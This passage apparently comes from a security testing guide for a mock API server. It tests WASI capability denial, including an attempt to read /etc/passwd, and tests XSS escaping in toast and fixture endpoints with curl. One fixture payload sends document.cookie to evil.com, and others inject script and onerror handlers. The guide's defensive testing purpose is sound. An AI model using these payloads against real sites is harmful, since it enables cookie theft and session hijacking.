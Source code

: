 ```bash
# Expected: Import failure (function not exposed)
# Result: {"error": "Unknown import: env.read_file"}
```

#### Test Case: WASI Capability Violation
```rust
// Attempt filesystem access without capability
(module
  (import "wasi_snapshot_preview1" "path_open" (func $open (param i32 i32 i32 i32 i32 i64 i64 i32 i32) (result i32)))
  (func (export "run")
    ;; Try to open /etc/passwd
    (call $open ...)
  )
)
```

```bash
# Expected: Capability denied
# Result: {"error": "WASI capability violation: filesystem access not granted"}
```

---

## Input Validation Testing

### 1. XSS (Cross-Site Scripting)

#### Test Case: Admin UI Toast Injection
```bash
# Attempt script injection in toast messages
curl -X POST http://localhost:3000/__mockforge/api/toast \
     -H "Content-Type: application/json" \
     -d '{"title": "<script>alert(document.cookie)</script>", "message": "XSS attempt"}'

# Expected: Script tags escaped and displayed as text
# Verify: DOM shows &lt;script&gt; instead of <script>
```

#### Test Case: Stored XSS in Fixtures
```bash
# Inject XSS in fixture data
curl -X POST http://localhost:3000/__mockforge/api/fixtures \
     -H "Content-Type: application/json" \
     -d '{
       "name": "<img src=x onerror=\"alert(1)\">",
       "response": {"body": "<script>document.location=\"http://evil.com?c=\"+document.cookie</script>"}
     }'

# Expected: HTML escaped when displayed
# Verify: View fixture in UI, check for escaped characters
```
